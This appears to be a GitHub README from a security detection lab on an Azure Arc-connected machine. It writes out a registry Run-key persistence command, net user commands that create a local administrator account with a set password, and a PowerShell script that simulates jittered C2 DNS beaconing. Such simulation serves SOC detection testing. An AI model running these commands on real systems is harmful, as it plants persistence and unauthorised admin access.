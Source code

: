 ![GitHub Logo](https://media-hosting.imagekit.io//624976c3677e4fbc/attack.png?Expires=1835504095&Key-Pair-Id=K2ZIVPTIP2VGHC&Signature=ECl9MXShcMnnOJbrW86dwFt6XH~GN2UDRVLCWTHqBtOamYtWHL~zmdHdiJfpt4O2a18spjuCX9kmpW5ofW02urY-p1iREhBJ4wj77xqwePjIat-SHf74LT8EJiC8fsUwLiGHuy~Zh0jeN4FGfN~OB26xDop~2jLlbX1ZEelhlA3kTQUwATBtyug-uaJnXGO~wQkWRD8o-QRPj1TbYXI6GZhaAIMJjVFMQeM-5nekGSXsjlw5ThyJF8~3VHhq0Hz7Y7BeRshIADoHzolnXRFKuIi09h~sWkpDcNM5RhANfFBvGKDi1p454wS382NLOfbtuuLGkpLerseiSexNsieG0g__)


# Persistence atack with registry key addition
In order to perform the task, I had previously connected my machine with Azure Arc. So, it is a mciahine with Azure Arc connected that has Azure monitor agent configured
1. Created a temp folder file in the root directory with
- _cd \
mkdir temp
cd temp_

2. Ran the command below to simulate program persistance: REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"


## Privilege Elevation Attach with User Aggregation
This command help to simulate the creation of administrator account
- net user theusernametoadd /add
- net user theusernametoadd ThePassword1!
- net localgroup administrators theusernametoadd /add
![GitHub Logo](https://media-hosting.imagekit.io//2b35beed32864efc/temp%20folder%20and%20command%20for%20persistent%20program%20simulation%20and%20priviledge%20elevation%20attack%20with%20user%20add.png?Expires=1835505576&Key-Pair-Id=K2ZIVPTIP2VGHC&Signature=sskFKv6PEXJUY4ptxQM1u1p0CyOXrd8BNTcWqb6F9Ll8kNF3FURzm6WUJl9MwGKl3xe11we2CDtZjR1qTNSY7Kxu6HnAYlPySjZoVhc~-W58mWV892pFFbqSOAvQkkJgAfn07iQG6~~6XwuN1MHn669ICiIY~4XTPMT69vUL7APrPJ3-i7VhZyf1H9m7Y4iuag8WOivlrtdXA2jQzNa04v44ESz-0GYPxSfQmmvaU04ye3pxnr4AlIC6DOED1UlbiJrLX89XuExY4vr6rF1ZOlRYNjnQ28d7viq9AjLMVG81jtY~5huVmhnPCkUP8fR04FjvC~1tz0vYmlS1VDf4gg__)

### Command and control attack with DNS
I ran this command to create a scirpt that will simulate a DNS query on a C2 server
(param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
    [int]$C2Interval = 8,
    [int]$C2Jitter = 20,
    [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }    
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd))
